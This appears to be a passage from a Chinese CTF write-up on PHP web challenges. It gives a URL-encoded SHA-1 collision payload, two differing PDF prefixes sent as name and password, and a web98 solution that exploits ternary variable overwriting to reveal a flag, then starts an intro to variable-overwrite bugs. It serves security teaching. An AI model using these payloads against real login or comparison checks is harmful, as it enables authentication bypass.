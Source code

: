 我们不能用数组了

还有一种payload

sha1碰撞

```
name=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
&password=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1 
```

##  9.三目运算符+变量覆盖

```php
(expr1)?(expr2):(expr3); //表达式1?表达式2:表达式3

如果条件“expr1”成立，则执行语句“expr2”，否则执行“expr3”。
```

###  web98

```
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);
```

审计代码：
第一行代码，得知如果有get传入参数，将post的值赋值给get
第二行跟第三行没有用
第四行，如果get传了一个HTTP_FLAG=flag就输出flag否则显示index.php源码。
所以我们get随便传一个，然后post传 HTTP_FLAG=flag即可

payload：get：1=1（随便都可以） post：HTTP_FLAG=flag

##  10.变量覆盖

###  前言

```
	变量覆盖指的是用我们自定义的参数值替换程序原有的变量值，一般变量覆盖漏洞需要结
合程序的其它功能来实现完整的攻击。

　  经常导致变量覆盖漏洞场景有：$$，extract()函数，parse_str()函数，
import_request_variables()使用不当，开启了全局变量注册等
```
